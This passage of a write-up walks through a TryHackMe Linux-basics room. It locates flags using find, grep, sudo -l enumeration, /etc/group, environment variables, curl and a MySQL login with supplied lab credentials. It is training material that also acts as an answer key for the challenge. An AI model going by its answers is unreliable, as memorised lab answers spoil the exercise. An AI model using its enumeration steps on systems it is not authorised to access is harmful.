We can use `find` to search for all files on the system. The option `-type f` means we'll only find files. We will start by searching only small files, as searching the contents of every file can take a long time. The max size of files to find can be specified with the `-size` option. We will start with `-size 1k`. Once the files have been found, we want to run `grep` on them. To run a command on each file found by `find`, we can add the `-exec` option and specify the command we want to run, terminating with a `\;`. Our command will be `grep -Il "4bceb" {}`. Here, the `-I` option stops `grep` from searching inside binary files, the `-l` option makes `grep` only show the file names, not the contents it found (this can be better if there are a lot of results), and, after the search string, the `{}` will be replaced by the path of the file found by `find`.

To stop a lot of *Permission denied* and other errors appearing at the command line, making it difficult to see the actual results, we'll send the error stream (`2`) to `/dev/null` (i.e. to nowhere so they're not displayed).
```
alice@ip-10-10-171-5:~$ find / -type f -size 1k -exec grep -Il "4bceb" {} \; 2>/dev/null
/var/cache/apache2/mod_cache_disk/config.json
alice@ip-10-10-171-5:~$ cat /var/cache/apache2/mod_cache_disk/config.json
flag twenty6

<flag 26 was here>
alice@ip-10-10-171-5:~$
```
Luckily, there was only one file containing that series of characters, so we didn't need to worry about complicating the search with the length of the string.
#### Answer
> &lt;flag 26 from above&gt;

### Question 8
Locate and retrieve flag 27, which is owned by the root user.

#### Steps
The *flag27* file wasn't any of the user directories we know of. However, when I looked in */home* to see if there were any other directories there, I could see the file at that level. The file is owned by *root*, and only *root* has permissions on it
```
alice@ip-10-10-171-5:~$ ls -la /home
total 296
drwxr-xr-x  6 root   root     4096 Feb 20  2019 .
drwxr-xr-x 23 root   root     4096 Oct 17 14:35 ..
drwxr-xr-x  4 alice  alice    4096 Oct 17 14:59 alice
drwxr-xr-x 21 bob    bob      4096 Feb 20  2019 bob
-rwx------  1 root   root       33 Feb 19  2019 flag27
-rwxr-xr-x  1 root   root   272364 Feb 18  2019 flag6.txt
drwxr-xr-x  3 garry  garry    4096 Feb 20  2019 garry
drwxr-xr-x 19 ubuntu ubuntu   4096 Mar  7  2019 ubuntu
alice@ip-10-10-171-5:~$
```
If we had a user that has [`sudo`](https://en.wikipedia.org/wiki/Sudo) access, we could view the file as if we were *root*. A way to find out which users have `sudo` privileges is to look in the */etc/group* file. This file lists which users are members of which groups. We can use `grep` to find all users who are members of `sudo`.
```
alice@ip-10-10-171-5:~$ grep sudo /etc/group
sudo:x:27:ubuntu
alice@ip-10-10-171-5:~$
```
We don't have a password for this *ubuntu* user that has `sudo` privileges. There is one other option before we go searching for the password for *ubuntu*. `sudo` also allows some users to run specific commands with elevated privileges. We can see what commands each of our users can run with `sudo -l`.
```
alice@ip-10-10-207-54:~$ sudo -l
Matching Defaults entries for alice on ip-10-10-207-54.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on ip-10-10-207-54.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /bin/cat /home/flag27
alice@ip-10-10-207-54:~$
```
We got lucky, and the user we're logged in as (*alice*) is able to run the exact command we need! There's no need to check the other users, we can just run out `cat` commands using `sudo`.
```
alice@ip-10-10-207-54:~$ sudo cat /home/flag27
<flag 27 was here>
alice@ip-10-10-207-54:~$
```
#### Answer
> &lt;flag 27 from above&gt;

### Question 9
Whats the linux kernel version?

#### Steps
We can simply display the Linux kernel version using `uname -r`.
```
alice@ip-10-10-207-54:~$ uname -r
4.4.0-1075-aws
alice@ip-10-10-207-54:~$
```
#### Answer
> 4.4.0-1075-aws

### Question 10
Find the file called flag 29 and do the following operations on it:

1. Remove all spaces in file.
2. Remove all new line spaces.
3. Split by comma and get the last element in the split.

#### Steps
The file *flag29* can be found in the home directory of the user *garry*.

We can use the *translate* command `tr` remove both the spaces and the new lines. Using `tr` with the `-d` (delete) flag tell it to remove specified chacters from the input string. We can pass the contents of *flag29* to it using `cat`.

To split at the comma and get the last element, we can use `cut`. `cut` will split a string at a specified delimiter (using the `-d` flag), and then return the field (or column) you specify with the `-f` flag. Unfortunately, the `-f` flag requires the field number, and we don't know how many fields the string will split into. The best was to get around this is to reverse the string with `rev`, then use `cut` with `-d,` to split at commas and `-f1` to get the first field. Finally, use `rev` again to put the final string back the right way around.
```
alice@ip-10-10-207-54:~$ cat /home/garry/flag29 | tr -d " \n\r" | rev | cut -d, -f1 | rev
<flag 29 was here>
alice@ip-10-10-207-54:~$
```
#### Answer
> &lt;flag 29 from above&gt;

## Task 5: SQL, FTP, Groups and RDP
This task will have you finding flags in an SQL database, downloading files from the file system to your local system and more!

### Question 1
Use curl to find flag 30.

#### Steps
We can use `curl` to transfer data across a network using URLs. Let's try using `curl` with the machine IP.
```
alice@ip-10-10-38-204:~$ curl 10.10.38.204
flag30:<flag 30 was here>
alice@ip-10-10-38-204:~$
```
#### Answer
> &lt;flag 30 from above&gt;

### Question 2
Flag 31 is a MySQL database name.

MySQL username: root
MySQL password: hello

#### Steps
We can use the `mysql` command to log into the database server. We can pass the username (*root*) using the `-u` flag, and tell it to request a password with the `-p` flag. Once were at the `mysql` command prompt, we can use `show databases;` to display all the database names
```
alice@ip-10-10-38-204:~$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5
Server version: 5.7.25-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+-------------------------------------------+
| Database                                  |
+-------------------------------------------+
| information_schema                        |
| database_<flag 31 was here>               |
| mysql                                     |
| performance_schema                        |
| sys                                       |
+-------------------------------------------+
5 rows in set (0.01 sec)

mysql>
```
#### Answer
> &lt;flag 31 from above&gt;

### Question 3
Bonus flag question, get data out of the table from the database you found above!

#### Steps
We can use a database in `mysql` with the command `use <database name>`, and then we can see what tables it has with `show tables;`. Finally, we can display the data from a table with `select * from flags`.
```
mysql> use database_<flag 31 from above>
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------------------------------------+
| Tables_in_database_<flag 31 from above>             |
+-----------------------------------------------------+
| flags                                               |
+-----------------------------------------------------+
1 row in set (0.00 sec)

mysql> select * from flags;
+----+----------------------------------+
| id | flag                             |
+----+----------------------------------+
|  1 | <bonus flag was here>            |
+----+----------------------------------+
1 row in set (0.00 sec)

mysql>
```
#### Answer
> &lt;bonus flag from above&gt;

### Question 4
Using SCP, FileZilla or another FTP client download flag32.mp3 to reveal flag 32.

#### Steps
The *flag32.mp3* file is in the home directory of *alice*.
```
alice@ip-10-10-38-204:~$ ls
flag17  flag19  flag20  flag22  flag23  flag32.mp3
alice@ip-10-10-38-204:~$
```
I used [*FileZilla*](https://filezilla-project.org/) for this questions as I already had it installed. I just used the quick connect feature at the top, entered the IP of the TryHackMe and the details for *alice*.



Once I clicked the *Quick connect* button, I could see the home directory of *alice* in the browse area.



It's just a case of dragging and dropping the file into a local directory, and then listening to the MP3 file. This will tell you the flag value.

#### Answer
> &lt;What you hear in the MP3 file&gt;

### Question 5
Flag 33 is located where your personal $PATH's are stored.

#### Steps
In Linux it's usual to set the user's `$PATH` locations using the *.profile* file. We can use `cat` on the *.profile* file belonging to *alice*, but that had no flags in it. *garry* also had no flags in his *.profile*. However, the *.profile* file for *bob* contained the flag:
```
bob@ip-10-10-38-204:~$ cat .profile | grep -i flag
#Flag 33: <flag 33 was here>
bob@ip-10-10-38-204:~$
```
#### Answer
> &lt;flag 33 from above&gt;

### Question 6
Switch your account back to bob. Using system variables, what is flag34?

#### Steps
You can view all system variables using the `set` command. Let's try to see if any of them contain the word *flag*.
```
bob@ip-10-10-38-204:~$ set | grep -i flag
flag34=<flag 34 was here>
    local flags_color="$c_lblue";
        s="$flags_color$s";
    local exclude flag i OPTIND=1;
    while getopts "c:i:n:p:w:" flag "$@"; do
        case $flag in
    local exclude= flag outx errx inx OPTIND=1;
    while getopts "n:e:o:i:s" flag "$@"; do
        case $flag in
    local configfile flag prefix;
    while getopts "acF:p:" flag "$@"; do
        case $flag in
bob@ip-10-10-38-204:~$
```
The *flag34* variable is what we want. We could also `echo` this variable.
```
bob@ip-10-10-38-204:~$ echo $flag34
<flag 34 was here>
bob@ip-10-10-38-204:~$
```

#### Answer
> &lt;flag 34 from above&gt;

### Question 7
Look at all groups created on the system. What is flag 35?

#### Steps
We can look at all the groups by using `cat` on the file */etc/group*. Look through the groups and we can see one that looks like a flag.
```
bob@ip-10-10-38-204:~$ cat /etc/group | grep -i flag
flag35_<flag 35 was here>:x:1005:
bob@ip-10-10-38-204:~$
```
#### Answer
> &lt;flag 35 from above&gt;

### Question 8
Find the user which is apart of the "hacker" group and read flag 36.

#### Steps
We can find out who is part of the *hacker* group by looking in the */etc/group* file.
```
bob@ip-10-10-38-204:~$ cat /etc/group | grep -i hacker
hacker:x:1004:bob
bob@ip-10-10-38-204:~$
```
The *bob* user is part of the *hacker* group. So where is *flag36*? 

Looking in the home directory for *bob*, it's not there.
```
bob@ip-10-10-38-204:~$ ls -la
total 204
drwxr-xr-x 21 bob  bob   4096 Feb 20  2019 .
drwxr-xr-x  6 root root  4096 Feb 20  2019 ..
-rw-rw-r--  1 bob  bob    273 Feb 20  2019 .bash_history
-rw-r--r--  1 bob  bob    220 Feb 18  2019 .bash_logout
-rw-r--r--  1 bob  bob   3890 Feb 19  2019 .bashrc
drwx------ 11 bob  bob   4096 Feb 20  2019 .cache
drwx------ 12 bob  bob   4096 Feb 20  2019 .config
drwx------  3 bob  bob   4096 Feb 19  2019 .dbus
drwxr-xr-x  2 bob  bob   4096 Feb 19  2019 Desktop
drwxr-xr-x  2 bob  bob   4096 Feb 19  2019 Documents
drwxr-xr-x  2 bob  bob   4096 Feb 19  2019 Downloads
drwxrwxr-x  2 bob  bob   4096 Feb 18  2019 flag13
-rw-rw-r--  1 bob  bob     65 Feb 20  2019 flag21.php
-rw-rw-r--  1 bob  bob     41 Feb 18  2019 flag2.txt
-rw-rw-r--  1 bob  bob    149 Feb 18  2019 flag8.tar.gz
drwx------  2 bob  bob   4096 Feb 19  2019 .gconf
drwx------  3 bob  bob   4096 Feb 20  2019 .gnupg
-rw-------  1 bob  bob   1388 Feb 20  2019 .ICEauthority
drwxrwxr-x  3 bob  bob   4096 Feb 19  2019 .local
drwx------  5 bob  bob   4096 Feb 20  2019 .mozilla
drwxr-xr-x  2 bob  bob   4096 Feb 19  2019 Music
-rw-------  1 bob  bob     18 Feb 19  2019 .mysql_history
drwxrwxr-x  2 bob  bob   4096 Feb 18  2019 .nano
drwxr-xr-x  2 bob  bob   4096 Feb 19  2019 Pictures
-rw-r--r--  1 bob  bob    699 Feb 19  2019 .profile
drwxr-xr-x  2 bob  bob   4096 Feb 19  2019 Public
-rw-rw-r--  1 bob  bob     66 Feb 18  2019 .selected_editor
drwx------  2 bob  bob   4096 Feb 18  2019 .ssh
drwxr-xr-x  2 bob  bob   4096 Feb 19  2019 Templates
drwxr-xr-x  2 bob  bob   4096 Feb 19  2019 Videos
-rw-------  1 bob  bob   4595 Feb 20  2019 .viminfo
drwx------  2 bob  bob   4096 Feb 19  2019 .vnc
-rw-------  1 bob  bob    214 Feb 19  2019 .Xauthority
-rwxrwxr-x  1 bob  bob     14 Feb 19  2019 .Xclients
-rw-rw-r--  1 bob  bob     14 Feb 19  2019 .xsession
-rw-------  1 bob  bob  55891 Feb 20  2019 .xsession-errors
bob@ip-10-10-38-204:~$
```
So let's try and find it with `find`.
```
bob@ip-10-10-38-204:~$ find / -name "flag*" 2>/dev/null
/var/log/flagtourteen.txt
/lib/terminfo/E/flag5.txt
/home/flag27
...
/etc/flag36
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/vif-0/net/eth0/flags
/sys/devices/virtual/net/lo/flags
...
/usr/src/linux-headers-4.4.0-1075-aws/include/config/zone/dma/flag.h
/usr/lib/python3/dist-packages/reportlab/graphics/widgets/flags.py
/usr/lib/python3/dist-packages/reportlab/graphics/widgets/__pycache__/flags.cpython-35.pyc
bob@ip-10-10-38-204:~$
```
We've found it in */etc/flag36*. Let's take a look.
```
ls -la /etc/flag36
-rw-r----- 1 root hacker 33 Feb 19  2019 /etc/flag36
bob@ip-10-10-38-204:~$ cat /etc/flag36
<flag 36 was here>
bob@ip-10-10-38-204:~$
```

#### Answer
> &lt;flag 36 fom above&gt;
